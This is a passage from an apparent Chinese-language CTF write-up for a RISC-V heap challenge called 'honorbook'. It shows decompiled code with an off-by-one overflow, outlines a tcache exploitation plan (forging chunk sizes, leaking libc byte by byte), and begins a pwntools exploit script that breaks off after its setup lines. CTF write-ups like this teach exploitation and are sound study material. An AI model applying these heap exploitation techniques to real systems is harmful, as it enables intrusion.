 ```
                ((basic_ostream *)std::cout,"User name: ",0xb);
      read(0,name,0x18);
      chunk = malloc(0xe8);
      *(void **)((longlong)name + 0x18) = chunk;
      std::__ostream_insert&lt;char,std::char_traits&lt;char&gt;&gt;((basic_ostream *)std::cout,"Msg: ",5);
      chunk_ptr = *(char **)((longlong)name + 0x18);
      size = chunk_ptr + 0xe9;
      do `{`
        read(0,chunk_ptr,1);
        if (*chunk_ptr == '\n') break;
        chunk_ptr = chunk_ptr + 1;
      `}` while (chunk_ptr != size);
      *(void **)(&amp;gp0xfffffffffffffa60 + idx * 8) = name;
    `}`
  `}`
  if (lVar1 == __stack_chk_guard) `{`
    return;
  `}`
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
`}`
```

在 Add函数中，在输入msg时，存在一个 off-by-one漏洞。

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

这道题libc是2.27的，那么就是一个简单的 tcache off-by-one漏洞，但是唯一的难点就是这道题无法使用 pwndbg等插件调试，对于看堆栈很不友好。

其次，就是其 libc地址中，总是会有 ‘\x00’出现，也就是我们输出地址时，只能输出部分地址，需要我们每次一字节的输出。

这道题的堆环境如下：

```
0x31
0xf1
0x31
0xf1
...
```

我们通过 0xf1的堆块，可以修改 0x31的堆头。做法就是修改 0x31为 0xf1，然后将其放入 tcache中，这样就可以绕过对于堆头size的检查。

然后我们再申请两次，那么就能够实现我们伪造的 fake_chunk 能够覆写 下一块 0xf1的堆块。

泄露地址时，每次覆盖一个字节，如果输出为 \n，则说明其下字节为 \x00。否则就能够输出其下一字节。

#### <a class="reference-link" name="EXP"></a>EXP

```
# encoding=utf-8
from pwn import *

file_path = "honorbook"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 1
if debug:
    p = process(['./qemu-riscv64', '-L', "libs", file_path])
    #p = remote('121.36.192.114',9999)
    e =ELF('honorbook')
    libc = ELF('./libs/lib/libc-2.27.so')
    one_gadget = 0x0

```
